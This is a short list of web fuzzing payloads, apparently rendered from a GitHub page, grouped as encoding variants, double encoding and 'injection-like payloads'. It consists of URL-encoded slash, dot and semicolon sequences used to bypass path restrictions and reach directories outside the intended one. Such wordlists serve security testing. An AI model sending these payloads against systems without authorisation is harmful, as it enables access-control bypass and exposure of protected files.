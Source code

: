 ### Encoding Variants

```
%09
%20
%20/
%20;
%23
%23%3f
%252f%252f
%252f/
%2e
%2e/
%2e;//
%3b
%3b%09
%3f%23
%3f%3f
%c0%af
%c0%af%c0%af
%c0%af%c0%af%c0%af
%c0%af;%c0%af
%ef%bc%8f
%ef%bc%8f%ef%bc%8f
%ef%bc%8f%ef%bc%8f%ef%bc%8f
%u002e
.%00
.%00/
```

### Double Encoding

```
%252f%252f
/%252e%252e%252f/
/%252e%252f/
/%252e/
/%252f
/%252e%252e
/%252e%252e%253b/
/%252e%253b/
/%252e/
/%2f
```

### Injection-Like Payloads

```
#?
%09%3b
%2f%20%23
%2f%23
%2f%3b%2f
%2f%3b%2f%2f
%2f%3f
%2f%3f/
%2f/
%2f;?
%2f?;
/;/
;/$2e%2e%2f..%2f
;x;
;x/../
;x;/../
```